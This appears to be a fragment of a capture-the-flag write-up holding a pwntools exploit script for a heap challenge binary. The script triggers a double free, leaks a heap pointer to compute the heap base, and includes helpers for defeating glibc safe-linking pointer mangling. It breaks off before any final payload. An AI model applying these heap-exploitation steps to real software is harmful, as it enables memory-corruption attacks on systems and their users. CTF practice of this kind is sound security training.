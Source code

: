 ```python=

def buy(size, data):
    slna(b'> ',1)
    slna(b'Size: ',size)
    sa(b'Content: ',data)

def w(data):
    slna(b'> ',2)
    sa(b'Content: ',data)

def er():
    slna(b'> ',3)

def read():
    slna(b'> ',4)

def gen(pos, ptr):
    pos = p64(pos >> 12)
    ptr = p64(ptr)
    return u64(xor(pos, ptr))

def de(pos , ptr_en):
    pos = p64(pos >> 12)
    ptr_en = p64(ptr_en)
    return u64(xor(pos, ptr_en))

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+78
        b*main+192
        b*main+407
        b*main+488

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])

#Double free
buy(512, b'abc')
er()

#For heap leak
read()
ru(b'Content: ')
leak = r(4)[:-1]
leak = leak.ljust(4,b'\0')
leak = u32(leak)
heap_base = leak << 12
info("Leak ptr: "+hex(leak))
info("Heap base: "+hex(heap_base))
```